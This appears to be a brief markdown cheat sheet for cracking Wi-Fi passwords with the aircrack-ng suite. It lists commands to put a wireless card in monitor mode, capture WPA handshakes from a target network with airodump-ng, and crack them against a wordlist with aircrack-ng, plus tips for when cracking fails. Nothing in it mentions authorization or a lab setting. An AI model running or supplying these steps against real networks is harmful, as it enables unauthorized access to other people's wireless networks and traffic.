 ### list wireless network interfaces, as well as their current mode (managed/monitor/etc)
`iwconfig`
'ip a'
`ifconfig` may also help
if your card doesn't show up, try, "ifconfig wlan0 up" or "ifconfig wlan1 up" and try again

### put specified wireless network interface in monitor mode. note that this will change the name of the interface
`airmon-ng start <card>`

### listen for handshakes, recording caputres to specified file
hint: first find the channel the target is on. add -c and then the channel number
`airodump-ng --write <outputFile> <wireless interface> -c <channel number>`

### crack handshake
`aircrack-ng <capfile.cap> -w <wordList>`
if it doesn't work:
	+ the password may not be in the list, try a new one
	+ you may have a bad handshake, try capturing a new one

